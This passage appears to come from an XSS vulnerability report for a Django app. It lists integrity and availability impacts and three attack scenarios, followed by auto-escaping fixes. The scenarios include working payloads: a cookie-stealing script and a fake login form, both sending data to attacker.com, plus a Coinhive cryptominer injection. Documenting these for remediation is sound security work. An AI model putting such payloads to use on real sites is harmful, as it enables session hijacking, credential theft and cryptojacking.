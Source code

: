 ### Integrity Impact
- Page defacement
- Form manipulation
- Fake content injection
- Phishing attacks

### Availability Impact
- Redirect loops
- Resource exhaustion
- Browser crashes

## Attack Scenarios

### 1. Session Hijacking
Attacker steals session cookies and impersonates users:
```javascript
<script>
new Image().src = "http://attacker.com/steal?cookie=" + encodeURIComponent(document.cookie);
</script>
```

### 2. Phishing Attack
Inject fake login form:
```javascript
<div id="fake-login" style="position:fixed;top:0;left:0;width:100%;height:100%;background:white;z-index:9999">
  <form action="http://attacker.com/phish" method="post">
    <h2>Session Expired - Please Login</h2>
    <input name="username" placeholder="Username">
    <input name="password" type="password" placeholder="Password">
    <button type="submit">Login</button>
  </form>
</div>
```

### 3. Cryptominer Injection
```javascript
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('SITE_KEY');
miner.start();
</script>
```

## Remediation

### Immediate Fixes

1. **Enable Auto-escaping**:
```django
{# Remove |safe filter #}
{{ search_query }}

{# Remove autoescape off #}
{% autoescape on %}
  {{ review.content }}
{% endautoescape %}
```

